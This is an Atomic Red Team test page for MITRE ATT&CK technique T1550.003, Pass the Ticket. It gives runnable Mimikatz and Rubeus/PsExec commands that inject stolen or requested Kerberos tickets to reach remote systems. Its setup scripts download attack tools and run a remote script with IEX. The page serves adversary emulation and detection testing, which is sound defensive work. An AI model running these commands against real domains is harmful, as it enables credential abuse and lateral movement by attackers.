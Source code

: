 # T1550.003 - Use Alternate Authentication Material: Pass the Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/003)
<blockquote>Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

A [Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

A [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. [Pass the Hash](https://attack.mitre.org/techniques/T1550/002)) while also using the password hash to create a valid Kerberos ticket.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Kerberos Ticket Attack](#atomic-test-1---mimikatz-kerberos-ticket-attack)

- [Atomic Test #2 - Rubeus Kerberos Pass The Ticket](#atomic-test-2---rubeus-kerberos-pass-the-ticket)


<br/>

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ticket | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | string | |
| mimikatz_exe | Path of the Mimikatz binary | path | PathToAtomicsFolder&#92;T1550.003&#92;bin&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_exe} "kerberos::ptt #{ticket}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{mimikatz_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path #{mimikatz_exe} | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Rubeus Kerberos Pass The Ticket
Requesting a TGT on a remote system and retrieving it locally before requesting a service ticket with it. This is a Pass-The-Ticket attack because the TGT is obtained on the remote system, then used from a different machine (local).
PsExec is used to execute commands on the remote system, and the "C$" admin share is used to retrieve the TGT, so the current user must have admin rights remotely and other PsExec prerequisites must be met.

**Supported Platforms:** Windows


**auto_generated_guid:** a2fc4ec5-12c6-4fb4-b661-961f23f359cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target | Remote system to request the TGT from | string | localhost|
| user_name | username associated with the ticket (privileged account not required) | string | Administrator|
| password | password for user_name | string | Password|
| domain | domain | string | $Env:USERDOMAIN|
| rubeus_path | Path of the Rubeus binary | path | $Env:TEMP&#92;rubeus.exe|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|
| psexec_path | Path of the PsExec binary | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{psexec_path} -accepteula \\#{target} -w c:\ -c #{rubeus_path} asktgt /user:#{user_name} /password:#{password} /domain:#{domain} /outfile:ticket.kirbi
Set-Location $env:TEMP
Move-Item -Force "\\#{target}\c$\ticket.kirbi" ticket.kirbi
Write-Host "Successfully retrieved TGT from '#{target}', now requesting a TGS from local"
& "#{rubeus_path}" asktgs /service:cifs/#{target} /ticket:ticket.kirbi /ptt
Remove-Item $env:TEMP\ticket.kirbi
& "#{rubeus_path}" purge
```




#### Dependencies:  Run with `powershell`!
##### Description: Rubeus must exist on disk at specified location (#{rubeus_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rubeus_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-Webrequest -Uri #{rubeus_url} -OutFile #{rubeus_path}
```
##### Description: PsExec must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{psexec_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
